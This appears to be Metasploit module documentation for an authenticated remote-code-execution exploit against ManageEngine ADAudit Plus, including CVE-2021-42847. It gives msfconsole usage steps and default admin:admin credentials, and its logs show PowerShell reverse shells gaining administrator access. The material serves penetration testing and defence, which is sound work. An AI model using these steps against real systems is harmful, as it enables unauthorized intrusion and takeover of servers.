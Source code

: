 ## Vulnerable Application
This module exploits security issues in ManageEngine ADAudit Plus prior to 7006 that allow authenticated users to execute arbitrary code
by creating a custom alert profile and leveraging the custom alert script component.

This module first runs a few checks to test the provided credentials, retrieve the configured domain(s), and
obtain the build number of ManageEngine. If the credentials are valid and the target is vulnerable, the module
creates an alert profile that will be triggered for any failed login attempt to the configured domain.

For versions prior to build 7004, the payload is directly inserted in the custom alert script component of the alert profile.

For builds 7004 and 7005, the module leverages an arbitrary file write vulnerability (CVE-2021-42847) to create a Powershell script
in the `alert_scripts` directory that contains the payload. Note that this directory will be located under the
ADAudit Plus installation directory. The name of this script is then provided as the value for the
custom alert script component of the alert profile. For these builds, Meterpreter payloads such as
`cmd/windows/powershell/meterpreter/reverse_tcp` do not seem to work and only the `cmd/windows/powershell_reverse_tcp`
payload has been tested successfully.

This module will automatically delete the created alert profile before completing. This happens even if no shell was obtained.

It should be noted that during a single run, the module will typically authenticate to the target several times.
This is because ADAudit Plus is very strict about cookies. After a user performs a successful authentication request,
the server sends a cookie that can be used to visit the dashboard. However, in order to interact with most of the API 
endpoints, the user must then perform a request to `api/json/configuredDomainsList`. Only then does the server return a
cookie that can be used to interact with other endpoints. If the above requests are not performed in this exact order,
or additional requests are performed before the final cookie is obtained, the entire authentication chain needs to be repeated.

This module requires valid credentials for an account with the privileges to create alert scripts.
It has been successfully tested against ManageEngine ADAudit Plus builds
[7003](https://archives2.manageengine.com/active-directory-audit/7003/ManageEngine_ADAudit_Plus_x64.exe) and
[7005](https://archives2.manageengine.com/active-directory-audit/7005/ManageEngine_ADAudit_Plus_x64.exe) running on Windows Server 2012 R2.

Successful exploitation will result in RCE as the user running ManageEngine ADAudit Plus, which will typically be the local administrator.

## Installation Information
Vulnerable versions of ADAudit Plus are available [here](https://archives2.manageengine.com/active-directory-audit/).
Versions 7005 and prior are vulnerable by default, so no special configuration is required after installing the application.

After running the installer, you can launch ADAudit Plus by opening a command prompt with administrator privileges
and then running: `<install_dir>\bin\run.bat`.

The default ADAudit Plus credentials (set as default options for the module) are `admin`:`admin`.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/windows/http/manageengine_adaudit_plus_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set USERNAME [username]`
6. Do: `set PASSWORD [password]`
7. Do: `exploit`
8. Verify you get a shell on the target machine as the user running ManageEngine ADAudit Plus.

## Options
### AUTH_DOMAIN
The ADAudit Plus authentication domain to use. The default is `ADAuditPlus Authentication`. If the provided domain
does not match an authentication domain that is configured for the target, the module will throw an error and inform the user.

### USERNAME
Username to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials.

### PASSWORD
Password to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials.

## Scenarios
### ManageEngine ADAudit Plus build 7003 running on Windows Server 2012 R2
```
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > options

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

   Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
   AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
   PASSWORD     admin                       yes       Password to authenticate with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.91.250              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        8081                        yes       The target port (TCP)
   SSL          false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
   USERNAME     admin                       yes       Username to authenticate with
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.91.195   yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7003
[*] Attempting to create an alert profile
[+] Successfully created alert profile UiYnupjyi24
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:54442) at 2022-10-12 12:09:43 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:54441) at 2022-10-12 12:09:43 +0300
[*] Attempting to delete alert UiYnupjyi24
[+] Successfully deleted alert UiYnupjyi24

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>whoami
lies\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```

### ManageEngine ADAudit Plus build 7005 running on Windows Server 2012 R2
```
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7005 and the endpoint for CVE-2021-42847 exists.
[*] Attempting to authenticate again in order to retrieve the required cookies.
[*] Attempting to create an alert profile
[*] Attempting to write the payload to /alert_scripts/mwlhr.ps1
[+] Successfully wrote the payload to /alert_scripts/mwlhr.ps1 in the ManageEngine ADAudit Plus install directory
[+] Successfully created alert profile dVmy0Ygz
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[!] Make sure to manually cleanup the mwlhr.ps1 file from /alert_scripts/ in the ManageEngine ADAudit Plus install directory
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:41348) at 2022-10-12 12:59:28 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:41347) at 2022-10-12 12:59:28 +0300
[*] Attempting to delete alert profile dVmy0Ygz
[+] Successfully deleted profile alert dVmy0Ygz

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>whoami
lies\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```
